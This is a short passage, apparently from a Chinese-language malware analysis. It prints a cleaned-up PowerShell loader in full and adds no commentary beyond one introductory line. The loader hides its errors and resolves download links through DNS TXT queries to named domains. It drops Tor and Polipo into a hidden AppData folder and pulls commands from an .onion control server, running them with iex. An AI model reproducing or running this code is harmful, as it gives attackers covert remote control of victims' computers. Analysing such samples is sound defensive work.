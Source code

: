 进行初步整理后，代码如下：



```
$ErrorActionPreference = 'SilentlyContinue';
$kn = (get-wmiobject Win32_ComputerSystemProduct).UUID;
if ((gp HKCU:\SoftwareMicrosoftWindowsCurrentVersionRun) -match $kn) {;
(Get-Process -id $pid).Kill();
};
function e($dkez){;
$jt = (((iex "nslookup -querytype=txt $dkez 8.8.8.8") -match '"') -replace '"', '')[0].Trim();
$ovg.DownloadFile($jt, $tg);
$ei = $ke.NameSpace($tg).Items();
$ke.NameSpace($sa).CopyHere($ei, 20);
rd $tg;
};
$sa = $env:APPDATA + '' + $kn;
if (!(Test-Path $sa)){;
$qr = New-Item -ItemType Directory -Force -Path $sa;
$qr.Attributes = "Hidden", "System", "NotContentIndexed";
};
$zul=$sa+ 'tor.exe';
$axs=$sa+ 'polipo.exe';
$tg=$sa+''+$kn+'.zip';
$ovg=New-Object System.Net.WebClient;
$ke=New-Object -C Shell.Application;
if (!(Test-Path $zul) -or !(Test-Path $axs)){;
e 'i.vankin.de';
};
if (!(Test-Path $zul) -or !(Test-Path $axs)){;
e 'gg.ibiz.cc';
};
$pj=$sa+'roaminglog';
saps $zul -Ar " --Log `"notice file $pj`"" -wi Hidden;
do{
sleep 1;
$xxl=gc $pj
} while(!($xxl -match 'Bootstrapped 100%: Done.'));
saps $axs -a "socksParentProxy=localhost:9050" -wi Hidden;
sleep 7;
$zpp=New-Object System.Net.WebProxy("localhost:8123");
$zpp.useDefaultCredentials = $true;
$ovg.proxy=$zpp;
$ca='http://powerwormjqj42hu[.]onion/get.php?s=setup&amp;amp;mom=&amp;amp;uid=' + $kn;
while(!$qmh){
$qmh=$ovg.downloadString($ca)
};
if ($qmh -ne 'none'){;
iex $qmh;
};
```
